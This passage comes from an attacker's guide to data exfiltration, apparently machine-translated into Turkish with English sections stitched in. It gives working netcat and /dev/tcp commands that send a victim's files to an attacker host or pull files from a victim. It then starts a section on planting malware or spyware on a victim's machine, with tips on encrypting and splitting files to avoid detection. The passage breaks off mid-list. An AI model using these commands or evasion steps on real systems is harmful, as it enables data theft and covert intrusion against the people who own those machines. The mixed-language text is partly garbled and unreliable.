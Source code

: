 Veri sızdırma için NC kullanırken, hedef sistemdeki veriyi başka bir sistemde depolamak için bir NC sunucusu oluşturmanız gerekebilir. Bu sunucu, hedef sistemden gelen veriyi kabul eder ve başka bir sistemdeki NC istemcisine gönderir.

NC ayrıca, hedef sistemden veri çalmak için de kullanılabilir. Bir NC istemcisi oluşturarak, hedef sistemdeki belirli bir dosyayı veya dizini başka bir sistemdeki NC sunucusuna gönderebilirsiniz.

NC, veri sızdırma işlemlerinde kullanılan birçok protokolü destekler, örneğin TCP, UDP ve ICMP. Bu sayede, farklı ağ ortamlarında ve farklı protokoller üzerinden veri sızdırma işlemleri gerçekleştirebilirsiniz.

NC, basit ve etkili bir araç olmasının yanı sıra, çeşitli işletim sistemlerinde çalışabilir. Bu nedenle, farklı sistemlerdeki veri sızdırma işlemlerinde NC'yi kullanabilirsiniz.

NC, veri sızdırma işlemlerinde kullanılan birçok yöntem ve kaynak arasında sadece bir örnektir. Hedef sistemdeki veriyi başka bir sistemde depolamak veya hedef sistemden veri çalmak için farklı araçlar ve yöntemler de mevcuttur.
```bash
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file
```
To download a file from the victim using the `/dev/tcp` method, you can use the following command:

```bash
cat < /dev/tcp/<victim_ip>/<port> > <local_file>
```

Replace `<victim_ip>` with the IP address of the victim machine and `<port>` with the desired port number. `<local_file>` should be replaced with the name of the file you want to save the downloaded content as.

For example, to download a file from a victim with the IP address `192.168.0.100` on port `8080` and save it as `downloaded_file.txt`, you would use the following command:

```bash
cat < /dev/tcp/192.168.0.100/8080 > downloaded_file.txt
```

This command will establish a connection to the victim machine on the specified port and redirect the content to the specified local file.
```bash
nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim
```
### Kurbanın bilgisayarına dosya yükleme

Bir saldırgan olarak, hedef sisteme dosya yüklemek isteyebilirsiniz. Bu, hedefin bilgisayarına zararlı bir dosya veya casus yazılım bırakmanızı sağlar. Dosya yükleme işlemi için aşağıdaki adımları izleyebilirsiniz:

1. **Dosya hazırlama**: Yüklemek istediğiniz dosyayı hazırlayın. Bu dosya, hedef sisteme zarar verecek veya bilgileri çalacak bir saldırı aracı olabilir.

2. **Dosya şifreleme**: Dosyanızı şifreleyerek, tespit edilme riskini azaltabilirsiniz. Şifreleme algoritmaları kullanarak dosyanızı şifreleyin.

3. **Dosya bölme**: Dosyanızı daha küçük parçalara bölebilirsiniz. Bu, dosyanın yükleme sırasında tespit edilme riskini azaltır.
